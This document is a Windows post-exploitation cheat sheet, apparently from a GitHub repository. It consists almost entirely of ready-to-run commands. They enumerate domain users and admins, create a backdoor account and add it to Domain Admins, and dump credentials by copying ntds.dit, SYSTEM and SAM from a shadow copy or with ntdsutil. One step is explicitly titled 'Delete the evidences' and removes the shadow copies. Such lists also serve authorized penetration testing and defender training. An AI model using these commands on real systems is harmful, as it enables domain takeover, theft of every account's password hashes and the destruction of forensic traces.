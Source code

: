 # Windows Post Exploitation Cheat Sheet

## Spawn shell with given user,only for network purpose
Windows
```cmd
runas /netonly /user:domain\account cmd
```

## Useful commands

**Get Domain Controller name**
```cmd
C:\Users\User> nltest /dclist:DOMAIN
C:\Users\User> echo %LOGONSERVER%
```

**Domain Users**
```cmd
C:\Users\User> net users /domain
```

**Domain Groups**
```cmd
C:\Users\User> net groups /domain
```

**List the users of specific group**
```cmd
C:\Users\User> net groups "Domain Admins" /domain
```

**Add new user**
```cmd
C:\Users\User> net user USER PASS /add
```

**Delete user**
```cmd
C:\Users\User> net user USER /del
```

**List Local Groups**
```cmd
C:\Users\User> net localgroups
```

**Add user to Local Admin Group**
```cmd
C:\Users\User> net localgroup administrators USER /add
```

**Add user to Domain Amdins**
```cmd
C:\Users\User> net groups "Domain Admins" USER /add
```

**Account Password Policy**
```cmd
C:\Users\User> net accounts /domain
```

## HashDump with Windows Tools

+ **Shadow Copy**

1. Check if there is any Shadow Copy
```cmd
vssadmin list shadows
```

2. Create a Shadow Copy Volume
```cmd
vssadmin create shadow /for=X:  //Where X is the HDD where is the el ntds.dit file
```

3. Copy ntds.dit, SYSYEM and SAM
```cmd
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\ntds\ntds.dit .
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SYSTEM .
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SAM .
```

4. Delete the evidences
```cmd
vssadmin delete shadows /for=X:
```

+ **NTDSUTIL**

```cmd
C:\>ntdsutil
ntdsutil: activate instance ntds
ntdsutil: ifm
ifm: create full c:\pentest
ifm: quit
ntdsutil: quit
```
